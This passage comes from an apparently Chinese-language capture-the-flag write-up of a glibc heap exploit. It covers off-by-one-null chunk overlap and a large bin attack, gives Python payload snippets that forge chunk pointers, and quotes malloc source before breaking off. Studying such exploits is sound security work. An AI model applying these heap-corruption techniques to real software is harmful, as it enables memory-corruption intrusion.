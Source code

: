 Alloc(0x18)从unsorted bin中分割出来大小为0x20的chunk1，Alloc(0x4d8)从unsorted bin中分割出来大小为0x4e0的chunk7(因为这个chunk没有跟chunk2相邻，所以chunk2的prev_in_use还是0)，由于其size改为0x500，unsorted bin用完。Delete(1)使得chunk7的prev_size为0x20,size为0x4e0。此时Delete(2)，chunk2的prev_size为0x510，找到chunk1,chunk1的next chunk即chunk7的prev_in_use为0，chunk7寻址到chunk7+0x4e0处，即0x500,fake_precv_size，也被认为是空闲chunk，于是一个unlink合并了chunk1、chunk7、chunk2。

这个技巧是首先在unsorted bin的后面伪造好fake_prev_size同时利用off-one-null设置好unsorted bin下一个chunk的fake_size(prev_in_use)为0。通过off-one-null修改unsorted bin的size，分配两个chunk,Free第一个和之前的chunk2，合并三个chunk，再分配Alloc(0x38)+Alloc(0x4e8)即可造成Overlap chunk。

overlap chunk:
chunk7:0x040  
chunk2:0x060  
 
同样的套路,到Alloc(0x48)，造成overlap。

chunk8:0x590  
free_chunk:0x5c0 

这时候0x5c0在unsorted bin。Delete(2)使得0x060进入unsorted bin。Alloc(0x4e8)，0x5c0进入large bin而0x060被分配。再Delete(2)使得0x060进去unsorted bin 

![bins](./7.jpg)

![bins2](./8.jpg)

下面通过overlap修改chunk2的bk
```py
#use chunk7 to overwrite chunk2
    storage = 0x13370000 + 0x800
    fake_chunk = storage - 0x20
    p1 = p64(0)*2 + p64(0) + p64(0x4f1)
    p1 += p64(0) + p64(fake_chunk)
    Update(7,p1)
```
再通过overlap修改large bin的bk和bk_nextsize
```py
 #use chunk8 to overwrite large bin
    p2 = p64(0)*4 + p64(0) + p64(0x4e1)#size
    p2 += p64(0) + p64(fake_chunk+8)
    p2 += p64(0) + p64(fake_chunk-0x18-5)
    Update(8,p2)
```

此时再分配一个chunk，会先去检查unsorted bin，如果没有合适的就把其中的chunk插入到large bin中，源码如下：（这里直接搬运sakura师傅的博客）

```c
else
           {
             victim_index = largebin_index (size);
             bck = bin_at (av, victim_index);
             fwd = bck->fd;
             ....
             ....
             ....
             // 如果size<large bin中最后一个chunk即最小的chunk，就直接插到最后
                 if ((unsigned long) (size)
                     < (unsigned long) chunksize_nomask (bck->bk))
                   {
                     fwd = bck;
                     bck = bck->bk;
                     victim->fd_nextsize = fwd->fd;
                     victim->bk_nextsize = fwd->fd->bk_nextsize;
                     fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                   }
                 else
                   {
                     assert (chunk_main_arena (fwd));
               // 否则正向遍历，fwd起初是large bin第一个chunk，也就是最大的chunk。
```
